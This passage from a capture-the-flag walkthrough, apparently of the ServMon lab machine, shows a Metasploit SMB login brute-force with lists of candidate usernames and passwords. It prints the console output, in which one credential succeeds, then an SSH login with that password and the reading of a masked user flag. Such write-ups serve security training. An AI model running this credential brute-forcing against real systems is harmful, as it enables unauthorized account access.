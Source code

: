 Now that we have two users and a list of passwords, we can check to see if any of them are valid. We will use the SMB login module in Metasploit. We will put our users and passwords in `users.txt` and `passwords.txt` respectively.

```
msf5 > use auxiliary/scanner/smb/smb_login 
msf5 auxiliary(scanner/smb/smb_login) > set RHOSTS servmon.htb
RHOSTS => servmon.htb
msf5 auxiliary(scanner/smb/smb_login) > set USER_FILE users.txt
USER_FILE => users.txt
msf5 auxiliary(scanner/smb/smb_login) > set PASS_FILE passwords.txt
PASS_FILE => passwords.txt
msf5 auxiliary(scanner/smb/smb_login) > run

[*] 10.10.10.184:445      - 10.10.10.184:445 - Starting SMB login bruteforce
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\nathan:1nsp3ctTh3Way2Mars!',
[!] 10.10.10.184:445      - No active DB -- Credential data will not be saved!
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\nathan:Th3r34r3To0M4nyTrait0r5!',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\nathan:B3WithM30r4ga1n5tMe',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\nathan:L1k3B1gBut7s@W0rk',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\nathan:0nly7h3y0unGWi11F0l10w',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\nathan:IfH3s4b0Utg0t0H1sH0me',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\nathan:Gr4etN3w5w17hMySk1Pa5',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\nathan:',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\nadine:1nsp3ctTh3Way2Mars!',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\nadine:Th3r34r3To0M4nyTrait0r5!',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\nadine:B3WithM30r4ga1n5tMe',
[+] 10.10.10.184:445      - 10.10.10.184:445 - Success: '.\nadine:L1k3B1gBut7s@W0rk'
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\:1nsp3ctTh3Way2Mars!',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\:Th3r34r3To0M4nyTrait0r5!',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\:B3WithM30r4ga1n5tMe',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\:L1k3B1gBut7s@W0rk',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\:0nly7h3y0unGWi11F0l10w',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\:IfH3s4b0Utg0t0H1sH0me',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\:Gr4etN3w5w17hMySk1Pa5',
[-] 10.10.10.184:445      - 10.10.10.184:445 - Failed: '.\:',
[*] servmon.htb:445       - Scanned 1 of 1 hosts (100% complete)
```

## User

We see that we have one valid login - `nadine:L1k3B1gBut7s@W0rk`. We can now simply login as Nadine using SSH and get the user flag.

```
# ssh nadine@servmon.htb
nadine@servmon.htb's password: 
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>cd Desktop

nadine@SERVMON C:\Users\Nadine\Desktop>type user.txt
70832c**************************
```

